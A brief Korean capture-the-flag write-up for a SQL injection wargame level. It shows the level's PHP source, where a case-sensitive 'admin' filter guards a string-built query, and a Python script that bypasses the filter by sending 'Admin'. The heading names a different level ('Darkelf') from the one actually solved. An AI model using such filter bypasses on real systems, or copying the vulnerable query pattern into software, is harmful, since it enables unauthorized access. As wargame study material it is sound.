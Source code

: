 
## Darkelf Write-up

### 문제
``` php
<?php  
include "./config.php";  
login_chk();  
dbconnect();  
if(preg_match('/\'/i', $_GET[id])) exit("No Hack ~_~");  
if(@ereg("admin",$_GET[id])) exit("HeHe");  
$query = "select id from prob_troll where id='{$_GET[id]}'";  
echo "<hr>query : <strong>{$query}</strong><hr><br>";  
$result = @mysql_fetch_array(mysql_query($query));  
if($result['id'] == 'admin') solve("troll");  
highlight_file(__FILE__);  
?>
```

### Exploit 코드
``` python
import requests

url = 'https://los.rubiya.kr/troll_05b5eb65d94daf81c42dd44136cb0063.php?'
cookies = {'PHPSESSID' : 'My PHPSESSID'}
params = {}
params['id'] = 'Admin'

res = requests.get(url, cookies=cookies, params=params)

if "Clear" in res.text :
    print("[♪] TROLL Clear")
```
이번 문제는 id가 admin이면 문제가 풀리는데 admin이 필터링 되어 있다.
MySQL은 대소문자를 구분하지 않는다는 특징이 있다. 
따라서 `admin`과 `Admin`은 같은 문자열로 보기 때문에 이를 이용하면 문제가 풀린다.